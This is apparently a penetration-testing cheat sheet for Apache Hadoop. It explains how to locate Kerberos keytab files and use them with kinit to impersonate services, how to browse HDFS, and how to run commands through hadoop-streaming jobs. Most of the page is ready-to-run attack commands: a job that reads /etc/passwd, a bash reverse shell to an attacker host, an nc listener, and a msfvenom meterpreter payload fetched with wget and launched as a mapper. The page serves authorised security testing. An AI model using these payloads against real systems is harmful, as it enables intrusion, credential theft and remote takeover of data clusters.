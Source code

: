 ```yaml
---
title: Apache Hadoop Pentesting
description: Apache Hadoop is a collection of open-source software utilities that facilitates using a network of many computers to solve problems involving massive amounts of data and computation. It uses ports 8020, 9000, 50010, 50020, 50070, 50075, 50475 by default. 
tags:
    - Network
refs:
date: 2023-04-02
draft: false
---
```


## Authenticate using Keytab

Kyetab files are used to authenticate to the KDC (key distribution center) on Kerberos authentication. To find them, execute the following command in target system.

```bash
find / -type f -name *.keytab 2>/dev/null
```

After finding them, we can use them to gather information or authenticate.

```bash
# Gather information from a keytab
# -k: Speicifed a keytab file
klist -k /path/to/example.keytab

# Authenticate to Kerberos server and request a ticket.
# <principal_name>: it' stored in example.keytab. Run `klist -k example.keytab` to check it.
# -k: Use a keytab
# -V: verbose mode
# -t <keytab_file>: Filename of keytab to use
kinit <principal_name> -k -V -t /path/to/example.keytab
# e.g.
kinit user/hadoop.docker.com@EXAMPLE.COM -k -V -t /path/to/example.keytab
```

### Impersonate Another Hadoop Service

We can authenticate other services by executing **`klist`** and **`kinit`**. Then we can investigate the HDFS service by the following HDFS commands.

<br />

## HDFS Commands

### Find HDFS Binary Path

When authenticated, we need to find the path of the **`hdfs`** command associated with Hadoop. This command allows us to execute file system command in the datalake.  
If the path exists in the default PATH (confirm to run **`echo $PATH`**), we don't have to find them. However, if the path is not set in the default PATH, find it by running the following command.

```bash
find / -type f -name hdfs 2>/dev/null
```

If we find the path, go to the directory and use commands as below.

### HDFS Command Cheat Sheet

Please refer to [https://hadoop.apache.org/docs/current/hadoop-project-dist/hadoop-hdfs/HDFSCommands.html#Overview](https://hadoop.apache.org/docs/current/hadoop-project-dist/hadoop-hdfs/HDFSCommands.html#Overview)

As mentioned above, if the **`hdfs`** path is not set in the PATH, we need to go to where the **`hdfs`** binary exists.  
Basically, their commands are similar to UNIX.

```bash
hdfs dfs -help

# List files in the hdfs service root.
hdfs dfs -ls /
# -R: Recursive
hdfs dfs -ls /R /
# Get the contents of the file
hdfs dfs -cat /example.txt
```

<br />

## RCE (Remote Code Execution)

Reference: [https://github.com/wavestone-cdt/hadoop-attack-library/tree/master/Tools Techniques and Procedures/Executing remote commands](https://github.com/wavestone-cdt/hadoop-attack-library/tree/master/Tools%20Techniques%20and%20Procedures/Executing%20remote%20commands)

First we need to create arbitrary file that contains at lease one character. Then put it on HDFS.

```bash
echo hello > /tmp/hello.txt
hdfs dfs -put /tmp/hello.txt /tmp/hello.txt
```

Now execute below command to execute remote command.  
Note that the **`-output`** directory needs to be NOT exist, so if we want to multiple execute command, we have to delete the previous output folder or specify another name.

```bash
hadoop jar /path/to/hadoop-streaming-x.x.x.jar -input /tmp/hello.txt -output /tmp/output -mapper "cat /etc/passwd" -reducer NONE
```

We can see the result of the command in the output directory. For example,

```bash
hdfs dfs -ls /tmp/output
hdfs dfs -cat /tmp/output/part-00000
```

### Reverse Shell

In target machine, create a reverse shell script and put it on HDFS.

```bash
echo '/bin/bash -i >& /dev/tcp/10.0.0.1/4444 0>&1' > /tmp/shell.sh
hdfs dfs -put /tmp/shell.sh /tmp/shell.sh
```

In local machine, start a listener.

```bash
nc -lvnp 4444
```

Now execute the following command.

```bash
# -mapper: The HDFS path of the shell.elf
# -file: The system path of the shell.elf
hadoop jar /path/to/hadoop-streaming-x.x.x.jar -input /tmp/hello.txt -output /tmp/output -mapper "/tmp/shell.sh" -reducer NONE -file "/tmp/shell.sh"  -background
```

We can get a shell in local machine.

### Reverse Shell (MsfVenom)

First create a reverse shell payload using msfvenom in local machine and prepare a listener using msfconsole. 

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf > shell.elf

msfconsole
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost 10.0.0.1
msf> set lport 4444
msf> run
```

Transfer the payload to target machine.

```bash
wget http://10.0.0.1:8000/shell.elf -O /tmp/shell.elf
# Put it on HDFS.
hdfs dfs -put /tmp/shell.elf /tmp/shell.elf
```

Now execute the following command.

```bash
# -mapper: The HDFS path of the shell.elf
# -file: The system path of the shell.elf
hadoop jar /path/to/hadoop-streaming-x.x.x.jar -input /tmp/hello.txt -output /tmp/output -mapper "/tmp/shell.elf" -reducer NONE -file "/tmp/shell.elf"  -background
```

We can get a shell in meterpreter so to spawn the OS shell, run **`shell`** command in the meterpreter.
